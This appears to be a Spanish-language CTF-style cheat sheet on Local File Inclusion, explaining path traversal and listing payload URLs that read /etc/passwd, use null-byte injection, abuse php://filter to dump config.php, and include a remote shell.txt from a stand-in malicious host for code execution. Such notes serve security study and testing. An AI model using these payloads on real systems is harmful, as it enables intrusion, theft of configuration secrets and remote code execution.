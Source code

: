 ## Inclusión de Archivos Locales (LFI)

La vulnerabilidad de Inclusión de Archivos Locales (LFI) es una vulnerabilidad de seguridad informática que se produce cuando una aplicación web no valida adecuadamente las entradas de usuario, permitiendo a un atacante acceder a archivos locales en el servidor web.

En muchos casos, los atacantes aprovechan la vulnerabilidad de LFI al abusar de parámetros de entrada en la aplicación web. Los parámetros de entrada son datos que los usuarios ingresan en la aplicación web, como las URL o los campos de formulario. Los atacantes pueden manipular los parámetros de entrada para incluir rutas de archivo local en la solicitud, lo que puede permitirles acceder a archivos en el servidor web. Esta técnica se conoce como "Path Traversal" y se utiliza comúnmente en ataques de LFI.

En el ataque de Path Traversal, el atacante utiliza caracteres especiales y caracteres de escape en los parámetros de entrada para navegar a través de los directorios del servidor web y acceder a archivos en ubicaciones sensibles del sistema.

Por ejemplo, el atacante podría incluir "../" en el parámetro de entrada para navegar hacia arriba en la estructura del directorio y acceder a archivos en ubicaciones sensibles del sistema.

### Ejemplos básicos de LFI

#### Path Traversal básico
```ruby
http://sitio-vulnerable.com/index.php?page=../../../etc/passwd
```
Este ejemplo intenta acceder al archivo `/etc/passwd` en un sistema basado en Unix.

#### Inyección de byte nulo
```ruby
http://sitio-vulnerable.com/index.php?page=../../../etc/passwd%00
```
Esta técnica puede ser utilizada para eludir ciertos tipos de validación de entrada.

### Ejemplos avanzados de LFI

#### Uso de wrapper de PHP
```ruby
http://sitio-vulnerable.com/index.php?page=php://filter/convert.base64-encode/resource=config.php
```
Este ejemplo utiliza un envoltorio de PHP para leer y codificar el contenido de un archivo PHP.

#### Inclusión remota mediante LFI combinado con RFI
```ruby
http://sitio-vulnerable.com/index.php?page=http://servidor-malicioso.com/shell.txt
```
Si la configuración `allow_url_include` está habilitada, esto puede permitir la ejecución de código remoto.

#### Abuso de cadenas de filtros en PHP
```ruby
http://sitio-vulnerable.com/index.php?page=php://filter/convert.base64-encode/resource=../../../../var/www/html/index.php
```
Esto permite al atacante leer archivos sensibles codificados en Base64.


### Herramientas útiles

- **PHP Filter Chain Generator**: Herramienta para generar cadenas de filtros en PHP y abusar de ellas para conseguir ejecución remota de comandos. [Enlace a la herramienta](https://github.com/synacktiv/php_filter_chain_generator)

### Recursos adicionales para CTF

- **Payloads All The Things**: Repositorio con ejemplos de payloads para LFI y otras vulnerabilidades. [Enlace al repositorio](https://github.com/swisskyrepo/PayloadsAllTheThings)
